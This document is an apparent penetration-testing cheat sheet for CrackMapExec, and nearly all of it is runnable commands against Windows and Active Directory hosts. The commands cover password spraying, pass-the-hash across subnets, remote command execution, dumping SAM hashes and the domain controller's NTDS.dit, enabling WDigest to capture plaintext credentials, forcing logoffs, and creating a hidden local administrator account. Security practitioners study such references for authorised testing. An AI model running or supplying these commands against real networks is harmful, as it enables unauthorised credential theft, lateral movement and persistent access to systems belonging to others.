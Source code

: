 ```yaml
---
legal-banner: true
---
```


### **CrackMapExec (CME)**

CrackMapExec (CME) is an open-source post-exploitation tool that helps penetration testers perform various network-level attacks and enumeration tasks, It is particularly useful for managing large Active Directory (AD) environments.  


### **Key Functionalities**

1. **Enumerating Users and Groups**  
   Lists users, groups, and other AD objects  

2. **Password Spraying**  
   Tests a single password against multiple user accounts  

3. **Command Execution**  
   Executes commands remotely on target systems  

4. **Dumping Hashes**  
   Extracts password hashes from remote systems  

5. **Accessing Shares**  
   Lists and accesses SMB shares on remote systems  

### **Target Formats**

1. Single IP address:  
   ```bash
   crackmapexec smb [IP-ADDRESS-1] [IP-ADDRESS-2]
   ```

2. IP range:  
   ```bash
   crackmapexec smb [IP-ADDRESS]-28 [IP-ADDRESS]-67
   ```

3. CIDR notation:  
   ```bash
   crackmapexec smb [IP-ADDRESS]/24
   ```

4. Targets from file:  
   ```bash
   crackmapexec smb targets.txt
   ```

### **Connect to Target Using Local Account**

1. Connect with a local account:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth
   ```

2. Using a null session:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u "" -p ""
   ```

### **Pass the Hash Against a Subnet**

1. Pass the hash with local auth:  
   ```bash
   crackmapexec smb [IP-ADDRESS]/24 -u [USERNAME] -H '[LMHASH:NTHASH]' --local-auth
   ```

2. Standard pass the hash:  
   ```bash
   crackmapexec smb [IP-ADDRESS]/24 -u [USERNAME] -H '[NTHASH]'
   ```

### **Bruteforcing and Password Spraying**

1. Single password:  
   ```bash
   crackmapexec smb [IP-ADDRESS]/24 -u "[USERNAME]" -p "[PASSWORD]"
   ```

2. Multiple passwords:  
   ```bash
   crackmapexec smb [IP-ADDRESS]/24 -u "[USERNAME]" -p "[PASSWORD1]" "[PASSWORD2]"
   ```

3. Multiple users:  
   ```bash
   crackmapexec smb [IP-ADDRESS]/24 -u "[USERNAME1]" "[USERNAME2]" -p "[PASSWORD]"
   ```

4. Users and passwords from files:  
   ```bash
   crackmapexec smb [IP-ADDRESS]/24 -u [USER_FILE] -p [PASS_FILE]
   ```

5. Users from file, hashes from file:  
   ```bash
   crackmapexec smb [IP-ADDRESS]/24 -u [USER_FILE] -H [NTLM_HASH_FILE]
   ```

### **User Enumeration**

1. Enumerate users:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --users
   ```

2. Perform RID brute force to get users:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --rid-brute
   ```

3. Enumerate domain groups:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --groups
   ```

4. Enumerate local users:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-users
   ```

### **Host Enumeration**

1. Generate a list of relayable hosts:  
   ```bash
   crackmapexec smb [IP-ADDRESS]/24 --gen-relay-list output.txt
   ```

2. Enumerate available shares:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth --shares
   ```

3. Get active sessions:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --sessions
   ```

4. Check logged-in users:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --lusers
   ```

5. Get the password policy:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --pass-pol
   ```

### **Command Execution Methods**

1. Execute a command through `cmd.exe`:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' -x 'whoami'
   ```

2. Force the `smbexec` method:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' -x 'net user Administrator /domain' --exec-method smbexec
   ```

3. Execute commands through PowerShell:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u [USERNAME] -p '[PASSWORD]' -X 'whoami'
   ```

### **Getting Credentials**

1. Dump local SAM hashes:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth --sam
   ```

2. Enable WDigest to get credentials from LSA memory:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth --wdigest enable
   ```

3. Disable WDigest:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth --wdigest disable
   ```

4. Query user sessions:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' -x 'quser'
   ```

5. Force logoff:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' -x 'logoff [SESSIONID]'
   ```

6. Dump the `NTDS.dit` from the Domain Controller using `secretsdump.py`:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u [USERNAME] -p '[PASSWORD]' --ntds
   ```

7. Use Volume Shadow Copy Service to dump `NTDS.dit`:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u [USERNAME] -p '[PASSWORD]' --ntds vss
   ```

8. Dump the `NTDS.dit` password history:  
   ```bash
   crackmapexec smb [IP-ADDRESS]/24 -u [USERNAME] -p '[PASSWORD]' --ntds-history
   ```

### **Additional Features**

1. Upload a file to a remote share:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth --upload local_file.txt \\remote\share
   ```

2. Download a file from a remote share:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth --download \\remote\share\remote_file.txt local_path
   ```

3. Add a new user:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth -x "net user [NEW_USER] [NEW_PASS] /add"
   ```

4. Add a user to the Administrators group:  
   ```bash
   crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth -x "net localgroup administrators [NEW_USER] /add"
   ```
